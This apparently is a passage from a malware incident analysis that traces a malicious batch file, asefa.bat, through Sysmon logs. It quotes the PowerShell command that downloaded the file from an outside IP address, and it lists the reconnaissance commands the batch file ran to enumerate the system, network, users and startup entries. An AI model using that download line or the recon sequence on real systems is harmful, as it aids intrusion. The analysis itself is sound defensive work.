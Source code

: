 ### Delivery Mechanism (from previous analysis)
As documented in your report, frontpage.jpg contained the Base64-encoded PowerShell command that downloaded this file from 108.181.155.31:
```powershell
cmd /c powershell invoke-webrequest -uri 'http://108.181.155.31/asefa.bat' 
-outfile 'c:\programdata\asefa.bat'
```

---

## Behavioral Analysis - Complete Attack Chain

Using Sysmon Event IDs 1 (Process Creation) and 11 (File Creation), we captured the entire execution sequence. The batch file executed **36 distinct malicious actions** over an 8-second period.

### Phase 1: System Reconnaissance (11:12:09 - 11:12:14)

The batch file began with comprehensive system enumeration:

**1. System Information Gathering (11:12:09)**
```cmd
systeminfo /fo csv
```
- Collected: OS version, hotfixes, hardware details, domain info
- **Purpose:** Identify system configuration and patch level

**2. Network Configuration Enumeration (11:12:13)**
```cmd
netsh interface show interface
ipconfig /displaydns
netstat -anob
```
- **Purpose:** Map network topology, identify C2 opportunities, enumerate active connections
- **Significance:** DNS cache reveals recently contacted domains/IPs

**3. User Account Enumeration (11:12:13-11:12:14)**
```cmd
wmic useraccount get name,sid
net user
```
- **Purpose:** Identify privileged accounts for potential credential theft

**4. Service and Persistence Enumeration (11:12:14)**
```cmd
sc query type= service state= all
schtasks /query /fo CSV /v
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Uninstall
```
- **Purpose:** Map existing services, scheduled tasks, startup programs, and installed software
- **Significance:** Identifies defensive tools and persistence opportunities

---
